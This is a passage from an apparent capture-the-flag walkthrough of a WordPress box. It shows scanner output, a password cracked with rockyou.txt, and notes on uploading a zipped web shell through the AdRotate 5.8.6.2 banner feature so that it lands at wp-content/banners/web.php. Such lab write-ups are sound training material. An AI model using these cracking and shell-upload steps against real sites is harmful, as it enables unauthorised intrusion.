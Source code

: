 ```
[+] Finished: Sun May  4 09:40:33 2025
[+] Requests Done: 345
[+] Cached Requests: 9
[+] Data Sent: 136.671 KB
[+] Data Received: 488.26 KB
[+] Memory used: 281.008 MB
[+] Elapsed time: 00:00:19
```

![image.png](image%205.png)

And we get a hit with rockyou.txt!

```
loly : fernando
```

Another thing to note is the plugin `adrotate`. Let’s login to the wordpress admin panel.

![image.png](image%206.png)

I found this github repo which describes an exploit for our version of adrotate, 5.8.6.2:

[https://github.com/jephk9/oscp-jewels/blob/main/services/wordpress-plugin-exploits.md](https://github.com/jephk9/oscp-jewels/blob/main/services/wordpress-plugin-exploits.md)

```bash
# can upload shell as zip as image banner
# banner images are auto extracted to /banner folder
# use plugin settings to find where the /banner folder is
# mostly /var/www/html/wordpress/wp-content/banners
wp-content/banners/web.php
```

